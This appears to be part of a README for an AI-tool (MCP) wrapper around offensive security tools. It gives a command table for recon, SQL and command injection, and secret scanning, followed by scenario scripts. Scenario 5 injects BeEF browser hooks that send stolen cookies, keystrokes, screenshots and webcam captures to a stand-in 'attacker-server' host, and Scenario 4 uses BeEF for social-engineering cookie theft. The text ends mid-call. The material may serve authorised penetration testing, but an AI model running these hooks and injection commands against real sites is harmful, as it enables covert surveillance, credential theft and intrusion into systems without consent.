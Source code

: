 ## 🎯 **Quick Command Reference**

| **Phase** | **Tool** | **Command Template** |
|-----------|----------|---------------------|
| **Recon** | subfinder | `subfinder -domain TARGET -all -silent` |
| **Recon** | httpx | `httpx -target TARGET -tech-detect -json` |
| **Recon** | naabu | `naabu -host TARGET -top-ports 1000` |
| **Vulns** | nuclei | `nuclei -u TARGET -s critical,high -c 50` |
| **Vulns** | sqlmap | `sqlmap -u TARGET --level=3 --risk=2 --batch` |
| **Vulns** | dalfox | `dalfox url TARGET -w 50 --mining-dom` |
| **Vulns** | commix | `commix --url TARGET --level=2 --batch` |
| **Professional** | nessus | `MCP: scan_with_nessus(target, credentials)` |
| **Exploitation** | beef | `MCP: exploit_with_beef(target_url, beef_server)` |
| **APIs** | kiterunner | `kiterunner scan TARGET -w wordlist.txt` |
| **Secrets** | trufflehog | `trufflehog git TARGET --json` |

## 🎯 **Advanced Professional Scenarios**

### **Scenario 4: Enterprise Infrastructure Assessment**
```bash
# 1. Professional vulnerability scanning with Nessus
# Launch comprehensive Nessus scan
scan_with_nessus(target="192.168.1.0/24", scan_template="advanced", access_key="KEY", secret_key="SECRET")

# 2. Command injection testing on web applications
commix --url "https://corp.example.com/admin/system?cmd=test" --level=3 --technique=time-based --batch

# 3. Browser exploitation for social engineering
exploit_with_beef(target_url="https://corp.example.com/portal", hook_method="social", payload_modules="get_cookie,screenshot")

# 4. Monitor Nessus scan progress and get results
get_nessus_results(scan_id=123, export_format="nessus")
```

### **Scenario 5: Client-Side Exploitation Campaign**
```bash
# 1. Set up BeEF server for browser hooking
# Start BeEF: cd ~/tools/beef && ./beef

# 2. Inject hooks into discovered endpoints
exploit_with_beef(
    target_url="https://target.com/vulnerable-page",
    beef_server="http://attacker-server:3000",
    hook_method="iframe",
    payload_modules="get_cookie,keylogger,screenshot,webcam"
)

# 3. Test for command injection in admin panels
test_command_injection(
    target="https://target.com/admin/execute",
    data="cmd=whoami&action=run",
    method="POST",
```
